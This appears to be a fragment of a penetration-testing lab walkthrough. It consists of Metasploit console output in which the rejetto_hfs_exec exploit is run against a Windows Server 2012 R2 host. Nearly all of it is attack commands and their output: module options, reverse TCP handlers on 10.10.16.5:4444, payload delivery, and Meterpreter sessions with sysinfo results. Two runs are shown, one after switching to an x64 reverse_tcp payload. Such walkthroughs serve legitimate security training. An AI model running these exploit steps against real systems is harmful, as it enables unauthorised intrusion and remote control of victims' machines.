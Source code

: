 ```
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

```
msf5 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.10.16.5:4444 
[*] Using URL: http://0.0.0.0:8080/dd0dlD
[*] Local IP: http://10.10.16.5:8080/dd0dlD
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /dd0dlD
[*] Sending stage (180291 bytes) to 10.0.19.137
[*] Meterpreter session 1 opened (10.10.16.5:4444 -> 10.0.19.137:49623) at 2023-01-23 18:06:25 +0530
[!] Tried to delete %TEMP%\AhmCpAHBTgeesQ.vbs, unknown result
[*] Server stopped.

meterpreter > sysinfo
Computer        : WIN-OMCNBKR66MN
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

```
msf5 exploit(windows/http/rejetto_hfs_exec) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.10.16.5:4444 
[*] Using URL: http://0.0.0.0:8080/WGC9TXBGdHuXMWN
[*] Local IP: http://10.10.16.5:8080/WGC9TXBGdHuXMWN
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /WGC9TXBGdHuXMWN
[*] Sending stage (206403 bytes) to 10.0.19.137
[*] Meterpreter session 2 opened (10.10.16.5:4444 -> 10.0.19.137:49686) at 2023-01-23 18:10:06 +0530
[!] Tried to delete %TEMP%\xXApgs.vbs, unknown result
[*] Server stopped.

meterpreter > sysinfo
Computer        : WIN-OMCNBKR66MN
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
```